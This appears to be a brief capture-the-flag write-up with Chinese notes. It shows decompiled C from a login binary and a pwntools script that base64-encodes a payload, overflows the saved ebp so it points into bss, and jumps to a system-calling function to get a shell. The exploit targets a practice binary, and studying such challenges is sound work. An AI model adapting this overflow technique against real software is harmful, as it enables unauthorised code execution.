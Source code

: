 shellcode长度要求 < 12 byte
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-28h]
  char s; // [esp+1Eh] [ebp-22h]
  unsigned int v6; // [esp+3Ch] [ebp-4h]

  memset(&s, 0, 0x1Eu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &s);
  memset(&input, 0, 0xCu);
  v4 = 0;
  v6 = Base64Decode((int)&s, &v4);
  if ( v6 > 12 )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}
```

溢出ebp，指向bss + 4
```
from pwn import *

s = process("./pwn")
elf = ELF("./pwn")

callsystem = 0x08049284
input_addr = 0x0811EB40

p = "A" * 4
p += p32(callsystem)
p += p32(input_addr)

s.recvuntil("Authenticate : ")
s.send(p.encode("base64"))

s.interactive()
```